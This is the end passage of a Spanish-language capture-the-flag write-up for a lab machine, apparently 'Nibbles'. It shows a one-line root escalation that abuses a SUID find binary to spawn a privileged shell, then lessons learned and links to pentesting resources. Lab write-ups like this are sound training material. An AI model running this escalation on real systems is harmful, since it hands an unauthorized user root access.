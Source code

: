 ``` bash
/usr/bin/find  . -exec /bin/sh -p \; -quit 
```

**OBTENIDOS PERMISOS DE ROOT**

![[Nibbles_rootflag.png]](../images/Nibbles_rootflag.png)


---

## Lecciones aprendidas
- Técnicas nuevas descubiertas:
	- Cómo logearse y buscar malas configuraciones en postgrescli
		- psql
	- Búsqueda de vinarios con permisos mal otorgados

- Errores cometidos y cómo evitarlos en el futuro:
	- Mal procedimiento, una vez detectados los servicios es mejor profundizar en la versión de estos y buscar vulnerabilidades conocidas en vez de intentar encontrar una mala configuración, es más rápido descartar que no existan vulnerabilidades y si existen es más rápido aplicarlas.

---

## Recursos y referencias
- [Exploit-DB](https://www.exploit-db.com/)
- [GTFOBins](https://gtfobins.github.io/)
- [HackTricks](https://book.hacktricks.xyz/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [VeryLazyTech](https://www.verylazytech.com/)
- [HackinArticles]([Penetration Testing](https://www.hackingarticles.in/penetration-testing/))
